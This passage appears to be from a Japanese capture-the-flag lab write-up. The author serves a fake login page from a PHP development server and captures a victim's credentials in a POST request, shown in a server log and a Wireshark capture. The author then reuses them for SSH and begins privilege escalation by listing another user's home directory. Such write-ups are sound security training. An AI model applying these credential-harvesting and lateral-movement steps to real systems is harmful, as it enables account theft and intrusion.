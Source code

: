 ```html
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>
```

POSTリクエストが来た！

```shell
$ php -S 10.2.22.182:8000
[Sat May 10 22:55:33 2025] PHP 8.2.21 Development Server (http://10.2.22.182:8000) started
[Sat May 10 22:57:01 2025] 10.10.108.81:33670 Accepted
[Sat May 10 22:57:01 2025] 10.10.108.81:33670 [200]: GET /blog.html
[Sat May 10 22:57:01 2025] 10.10.108.81:33670 Closing
[Sat May 10 22:57:02 2025] 10.10.108.81:33678 Accepted
[Sat May 10 22:57:02 2025] 10.10.108.81:33678 [200]: GET /login.php
[Sat May 10 22:57:02 2025] 10.10.108.81:33678 Closing
[Sat May 10 22:57:02 2025] 10.10.108.81:47934 Accepted
[Sat May 10 22:57:02 2025] 10.10.108.81:47934 [200]: POST /login.php
[Sat May 10 22:57:02 2025] 10.10.108.81:47934 Closing
```

Wiresharkでキャプチャしたリクエスト。

```http
POST /login.php HTTP/1.1
Host: 10.2.22.182:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
PHPSESSID: 1c7tfnwk9xuln3yt3jmja3te7l
Content-Length: 45
Content-Type: application/x-www-form-urlencoded

username=daniel&password=[REDACTED]
```

admin/login.php でログインしても特に何もなかったが、SSHパスワードとして使えた。

## 権限昇格１

user.txt は adrian ユーザーにならなければいけない。

```shell
daniel@ip-10-10-108-81:~$ ls -al /home/adrian
total 44
drwxr-xr-x 4 adrian adrian         4096 May 11 03:00 .
drwxr-xr-x 5 root   root           4096 May 11 02:23 ..
lrwxrwxrwx 1 root   root              9 Mar 16  2022 .bash_history -> /dev/null
-rw-r--r-- 1 adrian adrian          220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 adrian adrian         3771 Feb 25  2020 .bashrc
drwx------ 2 adrian adrian         4096 Mar 15  2022 .cache
lrwxrwxrwx 1 root   root              9 Mar 16  2022 .mysql_history -> /dev/null
-rw-r--r-- 1 adrian adrian          807 Feb 25  2020 .profile
-rw-rw-r-- 1 adrian administrators  480 Mar 16  2022 query.py
-rw-rw-r-- 1 adrian adrian           75 Mar 16  2022 .selected_editor
-rw-rw-r-- 1 adrian adrian           96 May 11 03:02 site_status.txt
drwx------ 2 adrian adrian         4096 Mar 15  2022 .ssh
```